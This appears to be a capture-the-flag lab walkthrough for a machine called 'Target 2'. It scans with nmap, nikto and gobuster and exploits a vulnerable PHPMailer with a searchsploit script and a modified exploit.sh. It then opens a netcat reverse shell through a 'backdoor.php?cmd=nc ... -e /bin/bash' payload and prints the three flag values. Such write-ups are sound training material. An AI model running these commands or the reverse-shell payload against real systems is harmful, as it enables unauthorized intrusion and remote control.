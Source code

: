# **TARGET 2 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other techniques have been explored. Look at the PowerPoint presentation and the Penetration Testing Report Target 2 to find more methods not specified in this walkthrough.

---

Tools:

- Kali Linux
- Q shell
- Namp
- Nikto
- Gobuster
- FireFox Browser
- Searchsploit
- Bash Script
- NetCat

---

## **Walkthrough**

1. A glimpse at the Kali Linux machine IP and network addresses.

        ifconfig

    ![1](/Images/4/1.PNG)

2. Network FootPrinting (find machines on the network).

        nmap 192.168.1.0/24

    ![2](/Images/4/2.PNG)

3. Target2 fingerprinting (find services and ports on target2).

        nmap -sV 192.168.1.115 

    ![3](/Images/4/3.PNG)

4.  Look for Webserver vulnerabilities using Nikto.

        nikto -C all -h 192.168.1.115

    ![4](/Images/4/4.PNG)

5. Scan for paths using Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![5](/Images/4/5.PNG)

6. Explore path `192.168.1.115/vendor/` using the browser.
   
        192.168.1.115/vendor/

    **PHPMAILER detected.**

    ![6](/Images/4/6.PNG)     
   
7. Double click "PATH".

    **flag1**

    ![7](/Images/4/7.PNG)

8. Double "Click SECURITY.md".

    **It reveals vulnerable versions of PHPMAILER.**

    ![8](/Images/4/8.PNG)    

9.  Double "Click VERSION".

    **It reveals the PHPMAILER version in use.**

    ![9](/Images/4/9.PNG)  

10. Search for scripts to exploit PHPMAILER with Searchsploit.

        searchsploit phpmailer

    ![10](/Images/4/10.PNG)  

11. A glance at script 40968.sh

        searchsploit phpmailer -x php/webapps/40968.sh     

    **Press "q" keyboard to quit view.**

    ![11](/Images/4/11.PNG) 

12. Download the script to the current folder.

        searchsploit phpmailer -m php/webapps/40968.sh

    ![12](/Images/4/12.PNG)

13. Authorize file to execute.

        sudo chmod 777 40968.sh

14. Run exploit.

        ./40968.sh 192.168.1.115

    ![13](/Images/4/13.PNG)

    > Note: PHPMAILER can be exploited. Nevertheless,  the shell from this script does not allow us to do much. After researching, "exploit.sh" was discovered. It allows for creating a more useful shell.

    Script: [exploit.sh](/Resources/explot.sh)

15. Change the URL on the script.

        nano exploit.sh

    ##### Note: **To exit nano: "CTRL X", then "y" and "enter".**

    ![14](/Images/4/14.PNG)

16. Authorize file to execute.

         sudo chmod 777 exploit.sh

17. Execute the file.

        ./exploit.sh

    ![15](/Images/4/15.PNG)

18. Set Kali Linux Machine to listen using the NetCat command.

         nc -lnvp 4444

    ![16](/Images/4/16.PNG)

19. Make Target2 call the Kali Linux machine with the NetCat command embedded in the next payload after running it in the browser.

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    **Change the second IP address in the payload to the IP address of your own kali Linux machine.**

    ![17](/Images/4/17.PNG)

20. Look for flags.

        find /var/www -type f -iname 'flag*'

    **flag2 and flag3.**

    ![18](/Images/4/18.PNG)

21. Open the flag2 file.

        cat /var/www/flag2.txt

    **flag2**

    ![19](/Images/4/19.PNG)

23. Insert the path for flag 3 in the browser.

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
    
    ![21](/Images/4/21.PNG)

# FLAGS

flag1{a2c1f66d28051bd3a5874b5b6r43e21}

flag2{6a8ed560f0b5358ecf844108048eb337}

flag3{a0f568aa9de277887f37730d71520d9b}
